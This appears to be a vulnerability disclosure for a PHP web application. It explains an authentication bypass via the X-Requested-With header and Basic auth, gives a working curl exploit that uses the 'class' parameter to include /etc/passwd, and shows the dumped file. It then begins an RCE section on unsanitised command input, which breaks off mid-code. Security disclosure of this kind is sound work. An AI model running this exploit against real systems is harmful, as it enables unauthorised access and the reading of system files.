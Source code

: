 ```php
//REDACTED
```
If header `X-Requested-With` is set to `xmlhttprequest` and the value of `$_SERVER["REMOTE_USER"]` is set to any value. authentication does not occur . and down the line if `$_SESSION["username"]` is not set the script will redirect using `header()` . but the `header` function only sets response headers and does not exit . therefore the script will continue to execute, 

**exploitation :** send a request with header `X-Requested-With` set to `xmlhttprequest`,header `Authorization` set to `Basic YWRtaW46YWRtaW5h` (Basic and base64 of username and password contatinated together with a colon `:` in between. This is to in order to set variable `$_SERVER["REMOTE_USER"]` using HTTP BASIC AUTHORIZATION ). And finally get param `class` set to the path of the file to be included 

```console
$ curl 'http://192.168.0.19/index.php?class=/etc/passwd' -H 'X-Requested-With: xmlhttprequest' -H 'Authorization: Basic YWRtaW46YWRtaW5h' 
 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
sshd:x:101:65534::/var/run/sshd:/usr/sbin/nologin
wms:x:1000:1000:,,,:/var/www:/bin/bash
callweaver:x:1001:1001:,,,:/var/www:/bin/false
admin:x:1002:1003:Administrator,,,:/home/admin:/bin/bash
openldap:x:1003:1004::/home/openldap:/bin/sh
ejabberd:x:1004:1005::/dev/shm/wmsdb.d/ejabberd:/bin/sh
fetchmail:x:103:65534::/var/lib/fetchmail:/bin/false
snmp:x:105:65534::/var/lib/snmp:/bin/false
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/bin/false
ntp:x:104:104::/home/ntp:/bin/false
nagios:x:106:106::/var/log/nagios:/bin/false
shellinabox:x:107:107:Shell In A Box,,,:/var/lib/shellinabox:/bin/false
freerad:x:108:108::/etc/freeradius:/bin/false
statd:x:109:65534::/var/lib/nfs:/bin/false
Cannot redirect to class file%
```
### RCE (using auth bypass)
the endpoint `features/make_keys_pdf.php` uses a user supplied value in a command without any sanitization
```php
require_once "../init.php";
if (preg_match("/(cticonnect)|(collaboration)/", $_SERVER["REQUEST_URI"])) {
    //REDACTED
} else {
    include_once file_exists("auth.php") ? "auth.php" : "../auth.php";
}
require_once "functions.php";
if (isset($_GET["set"])) {
```